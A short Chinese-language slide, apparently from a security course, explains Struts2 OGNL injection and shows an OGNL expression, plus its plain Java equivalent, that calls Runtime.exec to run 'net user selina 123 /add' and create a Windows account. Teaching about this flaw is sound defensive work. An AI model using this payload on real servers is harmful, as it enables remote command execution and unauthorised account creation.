

# MVC安全
Struts2 OGNL:

Ognl可以调用静态方法，比如表达式使用表达式去调用runtime执
行命令执行：

@java.lang.Runtime@getRuntime().exec('net user selina 123 	/add')

而在Java当中静态调用命令行的方式：

java.lang.Runtime.*getRuntime*().exec("net user selina 123 /add");